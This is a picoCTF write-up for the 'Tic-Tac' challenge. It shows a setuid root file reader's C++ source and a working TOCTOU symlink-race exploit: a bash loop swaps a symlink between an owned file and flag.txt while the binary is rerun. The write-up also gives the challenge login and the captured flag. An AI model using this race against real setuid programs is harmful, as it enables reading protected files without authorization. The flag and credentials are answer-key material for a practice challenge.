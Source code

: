 
# Tic-Tac

*Hard*

>### Description
>Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to saturn.picoctf.net:64035, and run the binary named "txtreader" once connected. Login as ctf-player with the password, d8819d45

### Solution

In the home directory of ctf-player I find three files: 
```
-rw------- 1 root       root          32 Aug  4  2023 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4  2023 txtreader
```

- Notice that the executable has the "setuid" bit set.

Lets look at the `src.cpp` file:

```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

>I did not really know how to exploit this... So I asked ChatGPT, it came up with a symlink attack using race conditions. A TOCTOU (Time-of-check Time-of-use) Attack, then I read the tag of the challenge that also said TOCTOU, and yeah, I should have seen that earlier...

The idea is that there is a time between the permissions check and the file reader. So we can create a symlink that is constantly switched between the `flag.txt` and some file I own. So create such a file with `echo "hi" > my.txt`, and then create a script.sh file that continuously switches the link:

```bash
#!/bin/bash
while true; do
    ln -sf my.txt symlink
    ln -sf /home/ctf-player/flag.txt symlink
done
```

Run this script in the background with `./script.sh &`. Now that the "symlink" is continuously switched between the flag and our owned file. Just spam `./txtreader symlink` until it prints the flag, it takes some ~~timing~~ luck to get it right.

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{ToctoU_!s_3a5y_5748402c}
</details>